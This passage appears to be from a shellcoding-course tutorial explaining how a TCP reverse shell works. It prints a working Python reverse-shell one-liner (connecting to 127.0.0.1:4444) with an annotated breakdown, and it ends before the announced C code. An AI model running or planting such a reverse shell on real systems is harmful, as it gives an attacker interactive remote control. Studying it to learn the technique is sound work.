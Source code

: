 ## Implementation

Follows the visual representation of this technique:

![Implementation of Reverse Shell TCP](/assets/img/slae32/reverse_shellcode_tcp_1.jpg)
*How a TCP Reverse Shell works*

After creating a TCP socket, it connects to a specific TCP listener, identified by an `IP:PORT` pair. At that point, the program redirects input, output and error to the newly-created socket.

Finally, a shell is spawned, thus giving an interactive shell to the TCP listener the socket connected to.

The graph is based on the C code I wrote in the next chapter.

### C Code

Given that I didn't know how to write a Reverse Shell in C, first I looked for a simple one-liner in `python` (which is the closest language I'm familiar with):

```bash
python -c 'import socket,os,pty;s=socket.socket();s.connect(("127.0.0.1", 4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Let's analyze the instructions:

```py
import socket, os, pty

s = socket.socket()
s.connect(("127.0.0.1", 4444))

# s.fileno() returns the File Descriptor associated with the socket
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]

pty.spawn("/bin/sh")
```
